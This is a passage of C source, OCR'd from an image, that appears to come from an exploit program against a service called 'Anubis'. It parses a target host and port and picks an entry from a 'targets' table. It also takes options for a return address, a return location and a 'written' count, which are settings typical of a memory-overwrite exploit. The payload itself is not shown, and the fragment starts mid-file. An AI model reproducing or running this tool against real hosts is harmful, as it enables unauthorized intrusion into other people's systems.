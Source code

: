     memset(&taddr, 0x00, sizeof(struct sockaddr_in));
    taddr.sin_port = htons(ANUBIS_PORT);
    taddr.sin_family = AF_INET;
    taddr.sin_addr.s_addr = INADDR_ANY;
    auth_port = htons(AUTH_PORT);

    memset(&laddr, 0x00, sizeof(struct sockaddr_in));
    laddr.sin_family = AF_INET;
    laddr.sin_port = 0;
    laddr.sin_addr.s_addr = net_localip();

    if ( (pt = strchr(argv[1], ':'))) {
        *pt++ = '\0';
        taddr.sin_port = htons((u_short)strtoul(pt, NULL, 0));
    }

    if ( (long)(taddr.sin_addr.s_addr = net_inetaddr(argv[1])) == -1) {
        fprintf(stderr, "Failed to resolve target host/IP\"%s\"\n", argv[1]);
         exit(EXIT_FAILURE);
    }
    argv++;
    argc--;

    i = strtoul(argv[1], NULL, 0);
    if (argv[1][0] == '-'|| (i<0) ||
             i>= sizeof(targets)/sizeof(struct target)-1) {
        fprintf(stderr, "** Bad target ID\n");
        exit(EXIT_FAILURE);
    }
    argv++;
    argc--;

    tgt = &targets[i];

    while ( (i = getopt(argc, argv, "r:l:w:b:")) != -1) {
        switch(i) {
            case 'b': {

                if ( (pt = strchr(optarg, ':'))) {
                    *pt++ = '\0';
                    laddr.sin_port = htons((u_short)strtoul(optarg,
                        NULL, 0));
                }

                if ( (long)(laddr.sin_addr.s_addr = net_inetaddr(optarg)) == -1) {
                    fprintf(stderr, "Failed to resolve target host/IP\"%s\"\n", optarg);
                    exit(EXIT_FAILURE);
                }
            }
            case 'r': ret = strtoul(optarg, NULL, 0); break;
            case 'l': tgt->retloc = strtoul(optarg, NULL, 0); break;
            case 'w': tgt->written = strtoul(optarg, NULL, 0); break;
            default: exit(EXIT_FAILURE);
        }
    }
